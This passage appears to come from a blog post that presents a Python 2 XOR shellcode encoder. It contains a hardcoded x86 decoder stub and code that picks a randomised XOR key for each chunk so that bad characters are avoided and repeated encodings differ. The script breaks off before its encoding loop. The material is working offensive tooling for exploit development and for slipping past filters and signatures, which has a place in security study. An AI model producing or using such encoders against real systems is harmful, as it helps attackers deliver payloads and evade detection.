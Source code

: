 When selecting the XOR byte to use for each chunk, it will randomise the order in which it checks the 254 byte range, meaning that encoding the same payload twice will likely not produce the same output twice.

The full script can be found below:

```python
import random
import struct
import sys

print

decoder_stub =  '\x31\xc0\x31\xdb\x31\xc9\x31\xd2'
decoder_stub += '\xb2\x45\xeb\x1f\x5e\x8d\x3e\x8a'
decoder_stub += '\x1c\x0f\x88\xdf\x88\xd0\x30\xd8'
decoder_stub += '\x74\x16\x66\x8b\x44\x0f\x01\x66'
decoder_stub += '\x31\xd8\x66\x89\x07\x41\x8d\x7f'
decoder_stub += '\x02\xeb\xe4\xe8\xdc\xff\xff\xff'

def find_valid_xor_byte(bytes, bad_chars):
    for i in random.sample(range(1, 256), 255):
        matched_a_byte = False

        # Check if the potential XOR byte matches any of the bad chars.
        for byte in bad_chars:
            if i == int(byte.encode('hex'), 16):
                matched_a_byte = True
                break

        for byte in bytes:
            # Check that the current byte is not the same as the
            # XOR byte, otherwise null bytes will be produced.
            if i == int(byte.encode('hex'), 16):
                matched_a_byte = True
                break

            # Check if XORing using the current byte would result in any
            # bad chars ending up in the final shellcode.
            for bad_byte in bad_chars:
                if struct.pack('B', int(byte.encode('hex'), 16) ^ i) == bad_byte:
                    matched_a_byte = True
                    break

            # If a bad char would be encountered when XORing with the
            # current XOR byte, skip continuing checking the bytes and
            # try the next candidate.
            if matched_a_byte:
                break

        if not matched_a_byte:
            return i

if len(sys.argv) < 2:
    print 'Usage: python {name} [shellcode] [optional: bad_chars]'.format(name = sys.argv[0])
    exit(1)

bad_chars = '\x0a\x00\x0d'
if len(sys.argv) > 2:
    bad_chars = sys.argv[2].replace('\\x', '').decode('hex')

shellcode = sys.argv[1].replace('\\x', '').decode('hex')
encoded = []
chunk_no = 0

```